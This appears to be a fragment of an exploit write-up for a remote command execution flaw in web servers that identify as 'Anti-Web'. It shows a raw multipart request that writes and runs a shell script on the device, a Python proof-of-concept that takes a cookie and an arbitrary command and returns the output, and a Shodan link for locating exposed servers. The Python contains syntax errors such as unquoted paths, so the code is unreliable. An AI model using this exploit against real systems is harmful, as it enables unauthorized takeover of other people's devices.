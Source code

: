 	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="script2"

	execute

	-----------------------------1816993527151539919951297987
	Content-Disposition: form-data; name="path2"

	sh /home/httpd/pageimages/RCE.sh

	-----------------------------1816993527151539919951297987--
***

### poc, Python script:  
'''
def reqRCE(xCookie, xCommand):

	thePost = MultipartEncoder(fields={
					'script1'	: 'file', 
					'filename1'	: /home/httpd/pageimages/RCE.sh,
					'maxsize1'	: '9999', 

					'content1'	: '/bin/'+xCommand,

					'script2'	: 'execute',
					'path2'		: 'sh '+/home/httpd/pageimages/RCE.sh
										})
	contentType = len(str(thePost))

	headers["Host"] 			=  < HOST >
	headers["User-Agent"]		= "Morzilla/7.0 (911; #ciberpatrulla ;Cabo_Landajo x86_128; rv:9743.0)"
	headers["Accept"] 			= "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" 
	headers["Accept-Languag"] 	= "es-AR,en-US;q=0.7,en;q=0.3"
	headers["Referer"] 			=  http://< HOST >/
	headers["Cookie"]			= "ID="+xCookie
	headers["Connection"] 		= "close"
	headers["Content-Length"]	=  str(contentType)
	headers["Content-Type"] 	= thePost.content_type

	r1 = requests.post(fullHost, data=thePost,headers=headers,timeout=15.000)
	theRce = r1.text

	print "\nok..."
	return theRce
'''
***

## On the wild!:
[Servers anti-web](https://www.shodan.io/search?query=Server: Anti-Web)
